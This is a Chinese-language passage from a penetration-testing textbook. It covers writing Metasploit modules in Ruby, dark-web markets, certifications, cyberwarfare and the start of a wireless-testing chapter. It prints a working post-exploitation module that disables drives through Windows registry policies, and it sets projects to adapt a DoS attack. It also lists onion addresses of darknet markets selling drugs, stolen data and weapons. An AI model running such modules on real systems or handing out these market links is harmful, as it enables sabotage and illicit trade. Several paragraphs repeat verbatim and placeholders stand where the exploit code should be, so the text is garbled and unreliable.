在注释之后，require ‘msf/core’ 语句告诉 Ruby 你必须拥有 Metasploit Framework Core。 虽然简单，但这很重要。 在 Kali Linux 中，你应该不会遇到什么问题。 但如果你在 Windows 中运行此代码，如果 Ruby 找不到 msf/core 的位置，你很可能会收到错误。

在某些漏洞利用中，你会看到 require 和 include 语句。 那么，它们有什么区别呢？ require 语句的行为类似于大多数其他编程语言中的 include 语句：它读取文件（或文件）并将其放入内存。 include 语句会原样包含指定模块中的所有方法。 就好像你把这些方法写在了自己的模块中一样。

为了使用你漏洞利用的人着想，你的 initialize 部分通常应包含一些基本信息。 首先是作者。 谁编写了它？ 其次是参考资料。 漏洞利用是为了利用某些漏洞而编写的。 你的漏洞利用利用了什么漏洞？ 然后是平台。 这表明你的漏洞利用可以攻击哪些操作系统。 标识有效载荷也很重要。 告诉读者你的漏洞利用可以投递哪些有效载荷。 请注意，所有段落都以 end 语句结束。 不要忘记这一点，否则会出现错误。

## 检查现有漏洞利用

以下漏洞利用是 Exploit Database 的一部分，可以在 https://www.exploit-db.com/exploits/29035/ 找到。 我们将逐行走读它，希望能让你了解每一行的含义。

```代码块保持原样```

到此时，**require** 和 **include** 语句应该已经很清楚了。 **initialize** 部分是放置有关漏洞利用信息的区域。 在此例中，你有一个被利用的 bug 的引用、默认选项、目标以及其他选项（远程端口，或 RPORT）。

你已经在上一节中看到了描述。 然而，references 部分包含更多信息。 请注意，它还描述了有效载荷以及目标操作系统。 这些都是重要信息。 还有指向正在被利用的实际漏洞的链接。

真正的[content]


图 16-2 framework.methods.


图 16-3 使用框架。

## 开始使用

在线上有可用的模板，网址为 https://github.com/rapid7/metasploit-framework/wiki/How-to-get-started-with-writing-an-exploit。 它看起来像这样：

```
##
# This module requires Metasploit: # http://metasploit.com/download
# Current
# source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  def initialize(info={})
    super(update_info(info,
      'Name'           => "[Vendor] [Software] [Root Cause] [Vulnerability type]",
      'Description'    => %q{
        Say something that the user might need to know
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'Name' ],
      'References'     =>
        [
          [ 'URL', '' ]
        ],
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'System or software version',
            {
              'Ret' => 0x41414141 # This will be available in 'target.ret'
            }
          ]
        ],
      'Payload'        =>
        {
          'BadChars' => "\x00"
        },
      'Privileged'     => false,
      'DisclosureDate' => "",
      'DefaultTarget'  => 0))
  end

  def check
    # For the check command
  end

  def exploit
    # Main function
  end

end
```

我们将逐一查看这些部分，以便你了解每个部分的作用。 第一部分只是注释，正如你在第 15 章所知，它们前面都有 # 符号。 我强烈建议大量使用注释。 为你的代码提供充足的内联文档不会有坏处。

在注释之后，require ‘msf/core’ 语句告诉 Ruby 你必须拥有 Metasploit Framework Core。 虽然简单，但这很重要。 在 Kali Linux 中，你应该不会遇到什么问题。 但如果你在 Windows 中运行此代码，如果 Ruby 找不到 msf/core 的位置，你很可能会收到错误。

在某些漏洞利用中，你会看到 require 和 include 语句。 那么，它们有什么区别呢？ require 语句的行为类似于大多数其他编程语言中的 include 语句：它读取文件（或文件）并将其放入内存。 include 语句会原样包含指定模块中的所有方法。 就好像你把这些方法写在了自己的模块中一样。

为了使用你漏洞利用的人着想，你的 initialize 部分通常应包含一些基本信息。 首先是作者。 谁编写了它？ 其次是参考资料。 漏洞利用是为了利用某些漏洞而编写的。 你的漏洞利用利用了什么漏洞？ 然后是平台。 这表明你的漏洞利用可以攻击哪些操作系统。 标识有效载荷也很重要。 告诉读者你的漏洞利用可以投递哪些有效载荷。 请注意，所有段落都以 end 语句结束。 不要忘记这一点，否则会出现错误。

## 检查现有漏洞利用

以下漏洞利用是 Exploit Database 的一部分，可以在 https://www.exploit-db.com/exploits/29035/ 找到。 我们将逐行走读它，希望能让你了解每一行的含义。


代码从 **while** 语句开始的部分是此漏洞利用的真正核心所在。在这里我们尝试连接到目标。如果成功连接，则发送随机的缓冲区内容。由于这是在一个循环中，只要保持连接，我们就持续发送数据。到了某个时间点，这应该会压垮服务器。到了那个时间点，我们断开连接。

这是一个简单的漏洞利用，并且并非在所有平台上都有效。但它易于理解，并且你可以在需要时对其进行进一步修改。

从此漏洞利用中，我们可以推广到所有漏洞利用的几项内容。Metasploit 有多个库。MSF Core 是基础 API，你总会在漏洞利用中看到它。msf/core 包含很多东西，如你所猜测的那样。其中有一些你会经常使用的函数。其中一些使用频率很高的函数有 **run_host**、**connect** 和 **send_raw_request**。REX 是你在漏洞利用中可能会经常看到的另一个库。它具有设置连接、格式化等功能。

类名可以是你想要的任何名称，通常是一个单词。有些人只是将类命名为 Metasploit1、Metasploit2 等。在 initialize 方法中你将描述漏洞利用。我没有填写此部分可以拥有的所有项目。

## 编写你的第一个漏洞利用

本节中，我们将研究一个相当简单的漏洞利用。简单搜索网络即可为你提供更多可供实验的漏洞利用。像任何 Metasploit 漏洞利用一样，这些漏洞利用只适用于特定目标。它可能无法在特定目标上工作。本章的目标是让你习惯用 Ruby 编写漏洞利用。

这是一个简单的漏洞利用，其版本出现在许多不同的来源中。这是因为它很短、易于理解但有效。请立即注意对 msf/core/post/windows/registry 的要求。这应该表明此漏洞利用仅适用于 Windows。如同上一节中的漏洞利用一样，在你有机会阅读它之后，我们将对其进行剖析。

```ruby
require 'msf/core'
require 'msf/core/post/windows/registry'
require 'rex'

class Exploit2 < Msf::Post
  include Msf::Post::Windows::Registry

# basic metasploit description
def initialize
super(
  'Name' => 'Drive Killer',
  'Description' => 'This restricts access to a drive',
  'Author' => 'open' )
end
```

```ruby
# basic get the drive letter
register_options(
[ OptString.new('DriveName', [ true, 'Please enter the Drive Letter' ]) ], self.class)
end

# now the meat of this exploit
def run
    drive_int = drive_string( datastore['DriveName'])
    key1 = "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer"

    # find out if this key exists. If it does not, then create it
    exists = meterpreter_registry_key_exist?( key1)

    if not exists
    registry_createkey( key1)

    # now let's change some registry values!

    meterpreter_registry_setvaldata( key1,'NoViewOnDrives', drive_int.to_s,
'REG_DWORD', REGISTRY_VIEW_NATIVE)

    meterpreter_registry_setvaldata( key1,'NoDrives', drive_int.to_s,'REG_DWORD', REGISTRY_VIEW_NATIVE)

    end

end
```

首先需要注意的是，此漏洞利用有三个不同的 **require** 语句。它需要 post 漏洞利用 /windows/registry，因为它利用该模块来获取驱动信息。这是一个 post 漏洞利用，这意味着你必须已经与该机器建立会话。然后你可以使用它来尝试禁用驱动器。

此漏洞利用的真正核心在于 run 部分。它首先会查明我们需要的注册表项是否存在。它应该存在，但如果由于某种原因不存在，我们将创建它。请注意，**meterpreter_registry_setvaldata** 可用于设置任何注册表项的值。

你可能还会注意到这里有一个新内容：**register_options**。还记得你为漏洞利用输入 **show options** 时的情况吗？好吧，这就是当有人为你的漏洞利用输入 **show options** 时会显示的内容。

## 总结

本章介绍了将 Ruby 脚本应用于编写自己的 Metasploit 漏洞利用。本章我们仔细研究了用 Ruby 编写的三种不同的漏洞利用。这可能看起来不是很多材料，但如果你仔细研究这些漏洞利用并掌握它们，你就可以开始编写自己的漏洞利用了。本材料与前一章相辅相成。完成这两章后，你应该对如何编写 Metasploit 漏洞利用有基本的了解。提升你在这些章节中所见技能的最佳方式是阅读尽可能多的漏洞利用代码。

还要记住 Metasploit 由 Rapid7 分发，因此他们是获取有关 Metasploit 的权威信息的明显来源。在你完成本章后，如果你想继续，Offensive Security 网站也有一些优秀的资源，网址为 https://www.offensive-security.com/metasploit-unleashed/building-module/。

此外，Offensive Security 还有一个很棒的资源，网址为 https://www.offensive-security.com/metasploit-unleashed/writing-an-exploit/。

甚至还有一个用于漏洞利用编写的在线 Wiki：https://en.wikibooks.org/wiki/Metasploit/WritingWindowsExploit。

## 测试你的技能

### 多项选择题

- 1. 以下哪种语句会将一个或多个文件读入你的代码？
  - A. include
  - B. import
  - C. require
  - D. initialize
- 2. 你会在哪里放置漏洞利用的描述，包括作者和漏洞？
  - A. description
  - B. initialize
  - C. header
  - D. exploit
- 3. 以下哪项最能描述 nop sled？
  - A. 发送空指令指针
  - B. 注入代码
  - C. 感染另一个进程
  - D. 向 CPU 发送无操作序列
- 4. 以下哪项是对 meterpreter_registry_setvaldata 函数的最佳描述？
  - A. 它设置现有注册表项的值。
  - B. 它创建注册表项并设置其值。
  - C. 如果注册表项不存在则创建它，然后设置其值。
  - D. 它创建注册表项。

## 项目

### 项目 1：修改

以本章前面介绍的 LDAP DoS 攻击为基础并以某种方式修改它。也许你想攻击 LDAP 服务器以外的东西？

### 项目 2：注册表

使用本章描述的驱动禁用漏洞利用作为模板，创建自己的漏洞利用，以写入（或读取）你想要的任何其他注册表设置。

## 通用黑客知识

### 章节目标

阅读本章并完成练习后，你将能够做到以下几点：

- 了解获取额外信息的途径
- 浏览暗网

本章概述了渗透测试或黑客社区中的任何人都应了解的关键知识。其中一些信息，例如与认证相关的信息，已在前几章中简要提及。这些主题将在此处扩展。其他主题，如暗网，在本章中是新的。所有材料都应为黑客或渗透测试社区中的任何人所熟悉。

### 会议

在任何领域，保持信息灵通都至关重要。你必须知道最新的趋势，并需要在社区中建立联系。对于渗透测试而言，你实际上生活在两个世界中。一个世界是专业 IT 世界，由企业 IT 人员和学术界组成。另一个世界是黑客社区。

对于黑客来说，最古老且最受尊敬的会议仍然是 DEF CON。在撰写本书时，我在 DEF CON 25 上做了工作坊。这应该能说明你这个会议有多老（截至本文撰写时已有 25 年历史）。那是我在 DEF CON 的第二次演讲，我的印象相同。这是你会遇到的最多元化的人群。有硬核黑客、执法人员、安全专业人员、情报机构成员，甚至还有一些网络

罪犯。他们都去那里是为了同一个目的：学习。DEF CON 的唯一问题是它规模巨大，你不可能看到所有想看到的内容。

如今还有许多其他黑客会议。Black Hat 规模相当大，声誉非常好。它也在 DEF CON 之前举行，两者都在拉斯维加斯。因此，你可以在一次旅行中参加两者。DEF CON 和 Black Hat 是两个“必参加”的会议。在你的职业生涯中，某个阶段你应该参加这两个会议。然而，世界各地正在涌现许多其他黑客会议。其中之一可能对你来说位置更方便。

ShmooCon 正在获得更多宣传。它已经存在几年了，虽然知名度不如 DEF CON，也远没有那么大，但是一个有趣的会议。

对于安全专业人士而言，ISC2 Security Congress 可能是最知名的安全会议。它每年在不同的城市举办。有来自各个安全主题的广泛演讲者。你可以选择自己最感兴趣的演讲。

SecureWorld 也很值得关注。这些会议规模通常较小，但每年在多个主要城市举办。这使得许多安全专业人士参加起来更方便。像 ISC2 一样，你可以参加自己感兴趣的演讲。RSA Conference 也享有很高的声誉，并且已经存在相当长的时间了。

以上只是最广为人知的会议的一个样本。显然还有许多其他非常好的会议。判断一个会议是否“好”的方式很简单，就是你在会议上学到了多少。

## 暗网

暗网是渗透测试的一个关键主题，原因有几个。首先，暗网上有大量关于黑客攻击和数据泄露的信息。任何渗透测试专业人员都应该熟悉它。其次，暗网市场通常是企业被盗数据的渠道。由于渗透测试关乎网络安全，了解如何在暗网上追踪信息是有用的。

暗网是互联网中只能通过洋葱路由访问的区域。洋葱路由本质上是将数据包在全球范围内路由，通过代理服务器跳跃。每个数据包都使用多层加密，每个代理只能解密一层，并将数据包发送到下一个代理。如果有人在两个代理之间传输时拦截数据包，你只能确定前一个代理和下一个代理。你无法确定实际的来源或目的地，如图 17-1 所示。


图 17-1 TOR。

这导致了一个情况，即某人的位置不易被确定。例如，我使用 TOR 浏览器访问了 Yahoo.com。我是在德克萨斯州普莱诺的书房里做的。在图 17-2 中你可以看到结果。


图 17-2 通过 TOR 访问 Yahoo。

正如你所见，Yahoo 认为我来自瑞典，并以瑞典语向我展示页面。这种匿名性本身并非非法。人们可能出于许多合法原因希望匿名上网。有些人 simply 不喜欢被追踪，很明显许多公司确实为了营销目的追踪互联网流量；然而，TOR 浏览器也催生了非法的暗网市场。这些是人们在网上买卖非法商品的市场。商品以比特币或类似加密货币支付，使得购买行为非常难以追踪。

正如前面提到的，这对安全专业人士，包括渗透测试人员来说是一个问题，因为你的客户的数据可能已经在暗网上出售。大多数渗透测试/安全审计不做暗网审计，但也许应该做。

最近，一些主要的暗网市场已被执法部门关闭（HANSA 和 AlphaBay）。但其他市场又出现了。在撰写本章时，我花了 15 分钟搜索暗网市场，很容易就找到了多个出售毒品、被盗数据、枪支等物品的网站。甲基苯丙胺、可卡因、海洛因，应有尽有。这些暗网市场上的商品远不止这些。圣战训练网站、制造爆炸物的说明、黑客服务、买卖恶意软件的地方……

虽然一些知名的市场已被执法部门关闭，但其他市场仍在运营。截至本文撰写时，活动最频繁的市场包括：

- **The Dream Market:** http://lchudifyeqm4ldjj.onion
- **Silk Road 3:** http://silkroad7rn2puhj.onion/
- **Valhalla:** http://silkkitiehdg5mug.onion
- **Grams:** http://grams7enufi7jmdl.onion
- **Pushing Taboo:** http://pushingtabu7itqj.onion/
- **Wall Street:** http://wallstyzijhkrvmj.onion/signup?ref=276
- **T Chka Market:** http://pointgg344ghbo2s.onion

搜索引擎和起点：

- **http://xmh57jrzrnw6insl.onion/:** Torch，一个搜索引擎
- **https://hss3uro2hsxfogfq.onion.to:** 一个搜索引擎
- **http://dirnxxdraygbifgc.onion:** OnionDir，一个暗网网站目录
- **http://kbhpodhnfxl3clb4.onion:** Tor Search，一个搜索引擎
- **http://ndj6p3asftxboa7j.onion:** Tor Find，一个搜索引擎
- **linkzbg4nwodgic.onion:** 只是基础链接列表
- **jdpskjmg5kk4urv.onion:** 暗网链接

你应该知道这些网站来来去去。到你阅读本文时，有些可能已经无法运行。在开始浏览暗网之前，你应该知道它本质上是危险的。当然，传统网络也有其诈骗、恶意软件和其他危险。但暗网充斥着此类危险。在开始搜索暗网之前，我强烈建议你采取以下安全措施。

许多网站都有间谍软件、病毒和其他恶意软件。因此，必须为暗网活动建立特定的环境。该环境应是一个完全与主机操作系统隔离的虚拟机。这意味着，不共享剪贴板或文件夹。虚拟机最好使用与主机不同的操作系统，使得跨越 VM 屏障更加困难。最后，该 VM 只能用于暗网活动，而不能用于其他任何目的。这样，如果它感染了间谍软件，控制间谍软件的人将无法获得调查人员的真实身份信息。

也可以对暗网市场进行渗透测试。与传统渗透测试一样，这始于寻找暗网市场网站中的漏洞。幸运的是，出现了一些有助于此项工作的工具。网站 ichidan（http://ichidanv34wrx7m7.onion）追踪暗网网站中的漏洞。该网站的操作类似于传统互联网网站 shodan.io，后者是用于搜索普通网站漏洞的搜索引擎。图 17-3 显示了使用 ichidan 搜索任何暗网网站上的默认值。


图 17-3 ichidan 搜索。

暗网应成为你评估某组织安全状况的一部分。如果该公司的数据在暗网上出售，那么该公司的安全已经出现某种漏洞。在本章末尾的项目 2 中，你将实际看到如何连接到暗网并进行搜索。

## 认证与培训

第 1 章“渗透测试简介”简要讨论了行业认证。在本章中，我们将更深入地探讨培训、认证、教育等方面的选择。既然你正在阅读一本关于渗透测试的书，显然你有学习的愿望。你甚至可能正在作为某门课程的一部分阅读本书。然而，你进入的是一个必须不断学习的领域。你永远不可能知道所有知识，必须不断学习更多。你如何应对这个问题？此外，你是否具备足够的知识来开始渗透测试职业生涯？在本节中我将回答这些问题。

让我们从审视成为渗透测试人员所需的知识开始。定期地，我看到有人主张正式教育对渗透测试或网络安全整体而言无关紧要。而且这些人会指出某个拥有完全无关学位（例如历史）或根本没有学位的人，却在这一职业中做得很好。我的经验并不支持这一点。

总体而言，没有扎实计算机科学背景的人可能从事网络安全，甚至渗透测试职业，但会在知识上存在显著差距。而这些差距本可以通过扎实的计算机教育来填补。要在网络安全领域取得成功，你需要了解网络如何运作、计算机操作系统以及某种编程语言的基本知识，才能对网络安全有一个基本理解。对于渗透测试来说更是如此。

事实是，要在安全领域真正有效，需要比 IT 其他大多数领域更广泛的技能组合。如果你是 Oracle DBA，你只需要了解 Oracle。如果你是驱动程序员，那么你需要真正了解 C，可能还有汇编。但如果你从事安全工作，你需要具备网络、至少一到两种编程语言、数据库、操作系统等方面的实际知识，以及安全特定知识，如标准、程序、渗透测试技术等。坦率地说，太多安全专业人员根本没有这种多样化的知识。这是一个非常要求高的职业，需要非常高的标准。用医学医生作类比，网络安全不像家庭医生、足科医生等。要做好它，更类似于专门的外科学科。而这些需要更多的培训（既是初始培训，也是持续的继续教育）。

网络安全（以及 IT 总体）中确实有一些人没有相关学位。然而，做了大约 30 年后，我的经验是这些人分为两类：

- 认真的“电脑极客”，可能没有计算机学位，但从童年起就一直在摆弄电脑、编码等。这个人可能没有计算机学位，但读过的计算机科学书籍比获得三个学位时还要多。他们缺乏正式教育的不足被终身深入该主题所弥补。
- 第二组人只是没有他们自认为那么好。我经常遇到拥有无关学位或根本没有学位、但有 10 多年经验的人。其中许多人在非常狭窄的技能范围内非常出色。他们可能非常擅长 Java 编程，但并不真正理解 CPU 架构、算法设计、数据结构以及他们本应通过正规培训理解的其他主题。


理想情况下，你应该拥有一个与计算机相关的四年制学位（计算机科学、计算机信息系统、工程等），该学位要求你学习编程、网络和其他基础主题。如果你缺乏这些，那么你可能应该开始查找知识中可能存在的差距，并寻求纠正它们。

一旦具备基础教育，就能学习网络安全的细节。在这方面，第一章中讨论的认证非常有帮助。让我们重新审视其中一些认证（以及一些新的认证），看看每一种有助于涵盖哪些内容：

- **General knowledge:** 要从事网络安全的任何方面，你需要对广泛的安全主题有一般性的了解。ISC2 的 CISSP 考试和 CompTIA Security+ 都旨在提供广泛的安全主题。两者都因过于宽泛而缺乏深度而受到批评，但这正是我认为它们有用的原因。两者中的任何一个都能为你提供所需的知识广度，以便对网络安全原则有一般性的理解。两者都不会让你成为网络安全专家，但它们会帮助你打下基础。而且如果可以原谅我一点点明显的自我宣传，我自己的书 *Computer Security Fundamentals* 出自 Pearson Press（现已是第三版）就是为了达到同样的目的。
- **Basic penetration testing:** Certified Ethical Hacker 是最古老的黑客/渗透测试认证。对此考试有相当多的批评，其中一些是有道理的。然而，大多数批评源于误解。CEH 不会让你成为黑客或渗透测试专家。它会让你接触到广泛的黑客技术、技术和工具。它为开始渗透测试提供了基础。对于第一章“Introduction to Penetration Testing”中讨论的 Professional Penetration Tester 考试也是如此。本书本身涵盖了相同的主题，但在 Metasploit 等其他主题上则深入了一些。
- **More on penetration testing:** 第一章中提到的 Offensive Security 认证（OSCP 和 OSCE）非常有助于巩固你对 Metasploit 的知识，特别是对渗透测试的一般知识。Mile2 certifications（https://www.mile2.com/）实际上相当扎实。它们还有认证等级，每个等级比前一个更难。虽然这些认证在美国不如其他一些认证那样广为人知，但在国际上相当受欢迎，而且比大多数其他认证更实惠。
- **Others:** SANS 认证，如 GPEN，享有很高的声誉。它们还有一个等级体系，每个等级都更深入。然而，对于许多人来说，它们的价格过于昂贵。

除认证之外，还有正式教育的问题。当我开始时，还没有网络安全学位。现在有相当多的学位，其中许多可通过远程学习获得。你现在可能正在攻读网络安全学位，而这本书甚至可能是你的教材之一。如今有许多大学提供网络安全学位，包括博士学位。我认为，就像任何其他职业一样，拥有与网络安全相关的正式学位会让你受益匪浅。当然，该行业中没有此类学位的人很多，但他们可能存在自己甚至不知道的知识差距——这些差距可以通过合适的学位课程来填补。

这就引出了理想的渗透测试员。在我看来，这是一个拥有 3 到 5 年通用 IT 经验（编程、网络、数据库管理等）的人，然后再有 2 年的安全经验。理想情况下，此人至少应拥有与计算机相关的学位，最好是网络安全。我还建议至少拥有一个通用安全认证和一个渗透测试认证。

我知道有很多人会谴责认证和正式教育。这通常源于他们遇到过拥有学位和认证但技能远不如应有水平的人。或者他们可能认识一些没有认证或正式学位但技能相当出色的人。时不时会有人在博客或 LinkedIn 上发帖称 CISSP、GPEN、CEH 等行业认证毫无用处。当然，有时也会有人对一种认证提出异议，同时声称另一种是黄金标准。撇开许多工作要求或偏好某些认证这一事实不谈，让我们来讨论认证本身是否值得的问题。

让我们开始审视验证一个人技能的其他替代方法。通常这是通过正式教育或经验来完成的。让我们先从正式教育开始。阅读本文的每个人，只要在大学学习过一段时间，都很清楚课程差异很大。例如，在一位教授指导下的 C++ 编程入门课程可能非常艰苦，而在另一位教授指导下同样的课程就是一个“easy A”。雇主如何仅凭你拥有学位就知道你的课程有多严格？我们都遇到过拥有学位却对自己所学专业惊人地无知的人。

但经验呢？这难道不是评估一个人技能的真正标准吗？问题在于，如果将其作为唯一标准，经验的质量与教育一样参差不齐。你可能有 10 年的编程经验，但这只是非常庞大团队中的一小部分，你只负责其中一小部分，而且仅限于维护编程。没有新开发，没有创新思维，没有重大挑战。其他人可能只有 2 年经验，但全部都是具有挑战性、要求高、新的开发。那么，谁真的更有经验呢？

那么，认证呢？首先，与大学课程不同，标准不会变化。CISSP 考试在洛杉矶、密西西比、约旦、印度等地的考试都是一样的。如果你拥有某个认证，我就知道你在特定主题上至少具有一定的知识水平。而且与经验不同，我确切知道你为了获得认证需要做什么。

现在，我是在说认证是终极的吗？绝对不是。我们都遇到过拥有认证却让我们怀疑他们是如何获得的人。显然有些认证比其他认证更有价值。我也不是在谴责正式教育或经验。我也不是说正式教育是终极的。我们都遇到过拥有研究生学位却技能惊人地差的人。我要说的是，声称认证毫无用处的主张完全没有根据，坦率地说很荒谬。我要说的是，要真正判断一个人的技能，你需要看所有方面。是的，正式教育很重要。是的，经验很重要。是的，认证很重要。这就是为什么我认为理想的渗透测试员应兼具这三者。

## Cyber Warfare and Terrorism
事实是，网络正在成为大多数国际冲突的一个方面。无论是国家还是国际恐怖组织，将网络攻击和网络间谍活动作为冲突的一部分已成为新的常态。根据 Defense News 2014 年的一篇文章，“Cyberwarfare is the most serious threat facing the United States, according to almost half of US national security leaders who responded to the inaugural Defense News Leadership Poll.”

有两点令人信服的理由需要在关于渗透测试的书中 albeit 简要地涵盖这一主题。首先，渗透测试是网络安全这一更广泛主题的子集。所有网络安全专业人员都应至少对网络战问题有所了解。第二点原因是渗透测试员可能寻求就业的地方之一是政府机构。事实上，渗透测试员使用的许多技术与网络战中使用的技术相同。

随着各国对技术的依赖程度越来越高，它们也更容易受到对该技术攻击的威胁。网络攻击可以是更广泛冲突的一部分，包括全面战争，也可以是独立于任何实际战争的低水平攻击。网络空间的间谍活动更有意义。与你在电影中看到的不同，间谍的目标不是驾驶阿斯顿·马丁并喝 shaken not stirred 的马提尼酒。相反，它是为了获取信息。问题就在于，大多数信息在哪里？它在某个计算机系统中的某个地方。因此，网络间谍活动是一种合乎逻辑的发展。

除了这些一般性陈述外，还有实际事件说明了这些问题。以下是实际事件的简要示例：

- 2008 年，CENTCOM 被间谍软件感染。一个 USB 驱动器被留在国防部设施的停车场。蠕虫被称为 Agent.btz，是 SillyFDC 蠕虫的一个变种。
- 2009 年，阿富汗一架军用无人机的视频 feed 被破坏。肇事者无法控制无人机，但可以查看视频 feed。
- 2009 年，一次网络攻击渗透了美国电网，并留下软件以允许攻击者破坏电力。攻击来自中国和俄罗斯。攻击在美国范围内普遍存在，影响了多个电力公司和地区。令人不安的是，其中大多数攻击并非由公司或其安全部门发现，而是由美国情报机构发现的。
- 2009 年 12 月，黑客入侵计算机系统，窃取了美国和韩国的秘密国防计划。Authorities 推测朝鲜负责。被盗信息包括在与朝鲜开战情况下韩国和美国部队军事行动计划的摘要，尽管攻击可追溯到中国 IP 地址。
- 2010 年 12 月 4 日，一个自称巴基斯坦网络军的组织黑进了印度顶级调查机构中央调查局（CBI）的网站。
- 2012 年，Flame 病毒出现，针对 Windows 操作系统。任何关于网络战和间谍活动的现代讨论都不完整，没有对 Flame 的讨论。使该病毒值得注意的第一点是它专门为间谍活动而设计。它首先

2012年5月在多个地点被发现，包括伊朗政府机构。Flame是一种间谍软件，可以监控网络流量并截取受感染系统的屏幕截图。其次，它使用了被盗用的数字证书。

- 2012年，Shamoon 病毒首次被发现，后来在2017年一种变种重新出现。Shamoon 充当间谍软件，但在将其上传给攻击者后会删除目标的文件。该病毒攻击了沙特阿美的工作站，一个名为“Cutting Sword of Justice”的组织声称对此次攻击负责。沙特阿美内部的许多安全官员将此次攻击归咎于伊朗。而且，与 Stuxnet 类似，该病毒感染了除预期目标之外的系统。
- 2017年，我在撰写本书期间，美国指控俄罗斯使用杀毒产品卡巴斯基入侵美国系统。随后在2017年秋季，以色列声称其已入侵俄罗斯间谍机构，并发现证据表明，确实俄罗斯的确将卡巴斯基用作网络间谍活动的工具。这是一个典型的案例，似乎每个人都在入侵其他每个人。

上述每一起事件都清楚地表明，网络战和网络恐怖主义不仅仅是为了传播 FUD（恐惧、不确定性和怀疑）而设计的奇思妙想。相反，网络战和网络恐怖主义的威胁是任何安全专业人员都应了解的真正关切。

## 国家行为体

虽然任何人都可以参与网络冲突，但上一节所述的大多数事件都涉及国家行为体。因此，了解此类行为体如何开展行动至关重要。

国家行为体的经典例子可从网络安全公司 Mandiant 发现的中国高级持续性威胁（APT）攻击中找到。自2004年起，Mandiant 在7年期间追踪了多个 APT，均源自中国，具体为上海和浦东地区。这些 APT 简单地命名为 APT1、APT2 等。攻击与中国军方第61398部队有关。中国政府将该部队的活动视为机密，但似乎进攻性网络战是其任务之一。该组织的一个 APT 就入侵了20个不同行业的141家公司。APT1 能够在平均365天内保持对受害者网络的访问，在一例中长达1,764天。APT1 在10个月的时间内从一个组织窃取了6.5太字节的信息。

本案例研究揭示了国家行为体的基本要素。首先，攻击往往很复杂。这些不是脚本小子攻击。其次，攻击往往会持续一段时间。如果考虑到国家与单独黑客（或小团体黑客）之间的差异，这是有道理的。单独的攻击者根本无法每天24小时、每周7天进行攻击。他或她必须休息一段时间。最终，那个单独的攻击者会失去兴趣并转移目标。国家拥有资源，可以让攻击每天24小时、持续数月不断运行。

## 摘要

在本章中，您了解了会议，包括哪些会议提供什么信息。这应该有助于您选择合适的会议参加。您还了解了暗网和暗网市场。最后，我们讨论了网络战和国家行为体。我们还对特定认证进行了更详细的介绍。所有这些主题都与网络安全总体相关，特别是渗透测试。

## 测试你的技能

### 多项选择题

1. TOR 浏览器可用于访问：
   A. 仅 TOR 网站
   B. 仅传统网站
   C. 仅暗网市场
   D. 所有网站
2. 使用 TOR 的主要优势是什么？
   A. 匿名性
   B. 所有流量都加密
   C. 更快的互联网访问
   D. 使用比特币的能力
3. 网站 ichidan 的主要目的是以下哪一项？
   A. 寻找暗网市场
   B. 寻找暗网漏洞
   C. 追踪暗网市场
   D. 追踪暗网上的比特币
4. Shamoon 病毒最好可归类为以下哪一项？
   A. 后门
   B. 间谍软件
   C. 逻辑炸弹
   D. DDoS

## 项目

### 项目 1：选择会议

使用互联网搜索引擎查找您选择的网络会议的相关信息。撰写该会议的简介，详细说明其声誉、运营时间、费用、往届演讲者等项目。

### 项目 2：暗网

设置一台与主机完全隔离的虚拟机（无共享剪贴板、文件夹等）。然后在虚拟机中下载 TOR 浏览器：https://www.torproject.org/download/download.html。

现在，使用本章列出的其中一个搜索引擎搜索“hacking tools”并报告您发现的内容。注意：您在暗网上应谨慎——某些物品是非法的。请勿购买任何东西。如果您发现自己进入了任何涉及非法活动的网站，请立即离开该网站。

# 第18章

### 其他渗透测试主题

### 章节目标

阅读本章并完成练习后，您将能够做到以下几点：

- 了解如何进行无线渗透测试
- 了解 SCADA 和渗透测试
- 了解移动设备渗透测试的基本知识

前几章深入探讨了渗透测试的各个方面，包括 Windows 渗透测试、使用 Metasploit 和创建恶意软件。在本章中，我们讨论了一些不太常见的渗透测试领域。这些是更专业的主题。目标是为您提供这些领域的介绍，以便您至少对这些技术的渗透测试有基础知识。

## 无线渗透测试

无线黑客攻击在第12章“通用黑客技术”中简要讨论过；然而在本章中我们将深入细节。在某些情况下，可能有一点重复信息，但那是因为这些信息很重要。

第一个问题是定义无线意味着什么。您可能正在考虑家或办公室中的无线路由器。它通常使用2.4 GHz或5.0 GHz的无线电波运行。然而，无线也可以通过红外、蓝牙和蜂窝网络实现。所有这些都构成无线通信。我们将首先检查每种技术的基础知识。

## 802.11

网络技术的标准通常由电气和电子工程师学会（IEEE）制定。通常标准具有数字标识。对于无线电信号，IEEE 标准是802.11。802.11标准定义了14个可通信的频道。可使用的频道由东道国决定。例如，在美国，无线接入点只能使用1到11频道。频道往往会重叠，因此附近的 WAP 不应使用相近的频道。

除了频道之外，Wi-Fi 标准也经历了演变。每一种都是802.11后面跟一个字母标识。以下是按时间顺序排列的 Wi-Fi 标准列表：

1. **802.11a：** 这是第一个广泛使用的 Wi-Fi；它在5 GHz运行，相对较慢。
2. **802.11b：** 该标准在2.4 GHz运行，室内范围为125英尺，带宽为11 Mbps（兆比特每秒）。
3. **802.11g：** 仍有许多此类无线网络在运行，但您已无法购买使用802.11g的新 Wi-Fi 接入点。该标准与802.11b向后兼容。802.11g的室内范围为125英尺，带宽为54 Mbps。
4. **802.11n：** 该标准是对之前无线网络的巨大改进。带宽达到100至140 Mbps。它在2.4或5.0 GHz频率下运行，室内范围最远可达230英尺。
5. **802.11n-2009：** 该技术使用四个空间流在40 MHz频道宽度下可获得最高600 Mbps的带宽。它使用多输入多输出（MIMO），利用多个天线比单一天线能够更连贯地解析更多信息。
6. **802.11ac：** 该标准于2014年1月获批。吞吐量最高可达1 Gbps，至少500 Mbps。使用最多8个MIMO。
7. **802.11ad：** 无线千兆联盟标准。支持最高达7 Gbps的数据传输速率——比最高802.11n速率快十倍以上。
8. **802.11af：** 又称为“White-Fi”和“Super Wi-Fi”，该标准于2014年2月获批，允许 WLAN 在VHF和UHF频段54至790 MHz之间的电视白空间频谱中运行。
9. **802.11aj：** IEEE 802.11aj 是802.11ad的重新命名，用于在世界某些地区（具体为中国）可用的45 GHz免许可频谱。

Wi-Fi 通信中接下来需要熟悉的是 Wi-Fi 安全。有三种协议用作主要的 Wi-Fi 安全机制。它们在此简要描述。


## WEP
